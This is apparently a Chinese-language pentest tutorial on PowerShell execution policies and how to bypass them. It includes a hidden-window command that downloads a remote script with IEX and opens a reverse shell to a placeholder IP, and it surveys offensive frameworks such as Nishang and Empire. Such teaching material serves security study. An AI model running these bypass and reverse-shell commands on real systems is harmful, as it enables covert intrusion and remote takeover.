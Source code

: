 
# Powershell进阶篇 

## 执行策略
为防止恶意脚本的执行，PowerShell的执行策略，默认情况下，Restricted:脚本不能运行，可以通过以下命令查看当前的执行策略。
- Get-ExecutionPolicy：
  - Restricted:脚本不能运行(默认设置)。
  - RemoteSigned:本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
  - AllSigned:仅当脚本由受信任的发布者签名时才能运行。
  - Unrestricted: 允许所有的script运行。

- Set-ExecutionPolicy <policy name>
可以通过上面命令改变PowerShell的执行策略。

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本， 比如下面这三种。

1. 绕过本地权限执行
上传xx.ps1至目标服务器，在CMD环境下，在目标服务器本地执行该脚本，如下所示。
```
PowerShell.exe -ExecutionPolicy Bypass -File xx.ps1
```

2. 本地隐藏绕过权限执行脚本
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile File xx.ps1
```

3. 用IEX下载远程PS1脚本绕过权限执行
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NonI -NoProfile iex (New-Object Net.WebClient).DownloadString("xxx.ps1");Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

上述参数的说明，如下
- `ExecutionPolicy Bypass`绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则
- `WindowStyle Hidden`　隐藏窗口
- `NoLogo`　启动不显示版权标志的PowerShell.
- `NonInteractive (-Nonl) `　非交互模式，PowerShell不为用户提供交互的提示。
- `NoProfile (-NoP) `　PowerShell控制台不加载当前用户的配置文件。
- `Noexit`　执行后不退出Shell。这在使用键盘记录脚本时非常重要。


## 常用的PowerShel攻击工具有以下这几种

- `PowerSplit`　这是众多PowerShell攻击工具中被广泛使用的PowerShel后期漏洞利用框架，常用于信息探测、特权提升、凭证窃取、持久化等操作。

- `Nishang`　基于PowerShell的渗透测试专用工具， 集成了框架、脚本和各种Payload,包含下载和执行、键盘记录、DNS、 延时命令等脚本。

- `Empire`　基于PowerShel的远程控制木马，可以从凭证数据库中导出和跟踪凭证信息，常用于提供前期漏洞利用的集成模块、信息探测、凭据窃取、持久化控制。

- `PowerCat`　Powershell版的NetCat, 有着网络工具中的"瑞士军刀”美誉，它能通过TCP和UDP在网络中读写数据。通过与其他工具结合和重定向，可以在脚本中以多种方式使用它。


